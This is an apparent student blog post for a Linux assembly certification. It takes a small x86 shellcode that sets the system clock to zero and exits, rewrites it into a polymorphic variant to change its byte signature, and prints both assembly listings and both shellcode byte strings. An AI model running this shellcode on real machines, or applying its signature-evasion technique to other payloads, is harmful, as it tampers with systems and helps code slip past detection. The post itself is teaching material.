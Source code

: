 ```yaml
---
layout: post
title: SLAE Exercise 6 - Polymorphic Shellcode Part 1 Stime
subtitle: Polymorphic Shellcode Part 1
tags: [SLAE]
---
```


Overview
======

The first chosen shellcode from shell-storm is the 'stime and exit' shellcode. This can be found [here](http://shell-storm.org/shellcode/files/shellcode-213.php). This shellcode sets the device's time to 0, and then gracefully exits. 

The original code can be seen fully commented below:

```
global _start			

section .text
_start:


;stime([0])

push byte 25 ; Push 25 to the stack
pop eax      ; Pop 25 into eax for the stime syscall
cdq          ; Extend eax into edx, clearing the edx register
push edx     ; Push edx to the stack (0)
mov ebx, esp ; Move stack pointer into ebx - the time parameter is pointed to
int 0x80     ; Interupt to syscall

;exit()

inc eax      ; On success, return value from stime is 0, inc to 1 for exit syscall
int 0x80     ; Call interupt to exit gracefully
```

Using various techniques, this code was altered to create a polymorphic version of it. This code can be seen below:

```
global _start			

section .text
_start:

;stime(0)
xor eax, eax  ; clear eax register
push eax      ; push 0 to the stack
add eax, 25   ; add 25 to eax for the stime syscall
xchg ebx, esp ; point to the 0 in the stack
int 0x80      ; interupt to syscall

;exit
inc eax       ; if succesful, return value is 0 to eac, increment eax to be 1 for exit syscall
int 0x80      ; interupt to syscall to exit gracefully
```
It can be clearly seen that the 'stime' section of the code is completely different from before, whilst maintaining a relatively small size. The 'exit' section of the code remains the same, this could be changed with an 'add' or 'mov' instruction, however using the 'inc' instruction maintains a small size. 

When compiled and the extracted, the shellcode appears as follows:

**Original**

```
"\x6a\x19\x58\x99\x52\x89\xe3\xcd\x80\x40\xcd\x80"
```

**Polymorphic**

```
"\x31\xc0\x50\x83\xc0\x19\x87\xdc\xcd\x80\x40\xcd\x80"
```

As can be seen, the polymorphic shellcode, which is nearly completely different, is only one byte larger. 



This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: 1092

